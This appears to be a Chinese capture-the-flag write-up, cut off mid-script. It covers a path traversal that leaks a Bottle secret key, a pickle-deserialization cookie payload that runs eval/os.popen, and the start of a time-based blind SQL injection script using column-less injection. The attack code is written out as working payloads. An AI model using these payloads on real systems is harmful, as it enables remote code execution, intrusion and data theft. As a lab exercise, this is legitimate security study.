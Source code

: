 目录穿越拿secret

```bash
./.././../secret.txt
```

```bash
Hell0_H@cker_Y0u_A3r_Sm@r7
```

看到get\_cookie打pickle反序列化(get_cookie中会进行pickle反序列化)

```python
from bottle import cookie_encode
import os

secret = "Hell0_H@cker_Y0u_A3r_Sm@r7"

class Name:
    def __reduce__(self):
        return (eval, ("""__import__('os').popen('calc').read()""",))

exp = cookie_encode(('session',{"name": [Name()]}),secret)
print(exp)
```

‍

### **ezsql(手动滑稽)**

这题大概fuzz一下可以发现username处waf很多

```python
,
-
=
|
*
&
空格
order by
like
handler
and
union
```

在password处会对单双引号进行转义

那我们只需要想办法构造闭合然后打时间盲注，由于会对单引号进行转义，我这里用的无列名注入

```python
import requests

url = "xxxxx"
result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) >> 1
       # 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 无列名注入
        # payload = "select b from (select 1 as b,2 union select * from user limit 1,1)xrntkk"
        payload = "select b from (select 1 as b union select * from double_check limit 1,1)xrntkk"
```